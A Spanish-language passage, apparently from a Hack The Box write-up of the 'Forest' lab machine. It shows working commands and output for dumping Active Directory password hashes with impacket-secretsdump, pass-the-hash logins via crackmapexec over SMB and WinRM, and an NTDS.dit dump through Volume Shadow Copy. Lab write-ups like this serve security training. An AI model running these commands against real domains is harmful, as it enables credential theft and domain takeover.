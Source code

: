 Ya solo nos falta dumpear los hashes.

Esto lo podemos realizar con la herramienta **secretsdump de impacket**, tan solo hay que indicarle el dominio, nuestro usuario privilegiado y la IP de la máquina:
```batch
impacket-secretsdump htb.local/BrskWngs@10.10.10.161
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
...
...
```
Genial, obtuvimos todos los hashes de todos los usuarios.

Como ya tenemos los hashes, no es tan necesario que los descifremos, pues podemos aplicar el **Pass-The-Hash** para identificarnos como el usuario deseado.

Probemos con el hash del administrador usando **crackmapexec**:
```batch
crackmapexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```
Sí funciona.

Probémoslo con **WinRM** para ver si podemos usar la herramienta **Evil-WinRM**:
```batch
crackmapexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```
Y si se puede.

También con **crackmapexec**, podemos utilizar el parámetro `--ntds vss` para realizar una copia de seguridad de la **base de datos NTDS.dit** (que almacena las cuentas de usuario y sus hashes de contraseñas en **Active Directory**) utilizando la técnica de **Volume Shadow Copy Service (VSS)**:
```batch
crackmapexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6' --ntds vss
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.161    445    FOREST           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.161    445    FOREST           FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:db2ea542f73cefc4b642d5345c7e83dc:::
SMB         10.10.10.161    445    FOREST           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```